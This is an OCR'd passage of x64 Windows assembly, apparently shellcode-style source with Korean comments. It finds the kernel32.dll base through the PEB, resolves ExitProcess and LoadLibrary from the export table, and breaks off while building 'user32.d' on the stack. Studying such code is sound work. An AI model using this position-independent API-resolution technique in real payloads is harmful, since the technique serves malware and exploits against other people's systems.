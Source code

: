     		add rdi,rbx
    		mov rax, rdi 
    		ret 
    
    start:
    		xor rax, rax 
    		xor rdi, rdi
    		xor rsi, rsi
    		xor rcx, rcx
    		mov rax, gs : [rax+60h]
    		mov rax, [rax + 18h]    
    		mov rax, [rax + 10h]  
    		mov rbx, [rax]       
    		mov rbx, [rbx]       
    		mov rbx, [rbx + 30h] 	**; kernel32.dll base adr** 
    		mov edi, dword ptr [rbx + 3ch]   
    		add rdi, rbx 
    		xor r8,r8
    		add r8,rdi
    		add r8,40h
    		mov edi, dword ptr [r8 + 48h]  
    		add rdi, rbx 
    		mov[rbp + 18h], rdi  
    		mov esi, dword ptr [rdi + 20h]  
    		add rsi, rbx 
    		mov ecx, dword ptr [rdi + 24h] 
    		add rcx, rbx         
    		xor rdx, rdx 
    		push rax 
    		push rcx 
    		push rdx 
    		push rbx 
    		push rsp 
    		push rbp 
    		push rsi 
    		push rdi 
    		xor rdi, rdi 
    		add di, 479h 
    		call get_func_addr   **; exitprocess 주소 얻기**
    		mov[rbp + 40h], rax  **; exitprocess 주소 저장**
    		pop rdi
    		pop rsi
    		pop rbp 
    		pop rsp 
    		pop rbx 
    		pop rdx 
    		pop rcx 
    		pop rax     
    		xor rdi, rdi 
    		add di, 496h	
    		call get_func_addr   **; loadlibrary 주소 얻기**
    		mov[rbp + 48h], rax  **; loadlibrary 주소 저장**   		
    		sub rsp, 8h
    		xor rax, rax
    		mov qword ptr[rbp+20h],rax
    		mov qword ptr[rbp+28h],rax
    		mov byte ptr[rbp+20h],75h  ; u
    		mov byte ptr[rbp+21h],73h  ; s
    		mov byte ptr[rbp+22h],65h  ; e
    		mov byte ptr[rbp+23h],72h  ; r
    		mov byte ptr[rbp+24h],33h  ; 3
    		mov byte ptr[rbp+25h],32h  ; 2
    		mov byte ptr[rbp+26h],2eh  ; .
    		mov byte ptr[rbp+27h],64h  ; d